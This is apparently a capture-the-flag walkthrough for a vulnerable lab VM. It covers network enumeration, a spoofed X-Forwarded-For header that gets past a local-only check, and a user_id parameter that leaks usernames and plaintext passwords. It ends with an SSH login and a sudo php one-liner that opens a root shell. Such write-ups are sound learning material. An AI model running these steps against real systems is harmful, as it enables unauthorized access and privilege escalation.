 # Table of Contents

- [Enumeration](#enumeration)
- [Penetration](#penetration)
- [Escelation](#escelation)


---

## Enumeration: 
- VM IP: `sudo netdiscover`
	* `VMWare 192.168.1.13`
- VM info: `nmap -A 192.168.1.13`
- web server info: `dirb -w http://192.168.1.13`
	* http://192.168.1.13/index.php
	* http://192.168.1.13/misc/process.php
	* http://192.168.1.13/config/config.php
	* http://192.168.1.13/heyhoo.txt

## Penetration:
- index.php req local access
- header capture/info with **Fiddler**
- custom header with browser extension(X-Forwarded-For: 0.0.0.0)
- local access granted 
- register: http://192.168.1.13/index.php?page=register
- login: http://192.168.1.13/index.php?page=login
- profile : http://192.168.1.13/index.php?page=profile&user_id=13
- form action="#" -> POSTS data on index.php?page=profile
- user_id allows to get all the name,uname,pass values 
- uname:pass list
	1.eweuhtandingan:skuyatuh
	2.aingmaung:qwerty!!!
	3.sundatea:indONEsia
	4.sedihaingmah:cedihhihihi
   -->  5.alice:4lic3
	6.abdikasepak:dorrrrr
- `ssh 192.168.1.13 -l alice`
- login in and capture *first flag*
			
## Privilege Escelation:
- `sudo -l`:
	* alice has root access on /usr/bin/php
- `sudo php -r 'shell_exec("sudo /bin/bash -i 1>&0");'`
- root access granted
- `cd /root && cat flag*` and capture the *second flag*





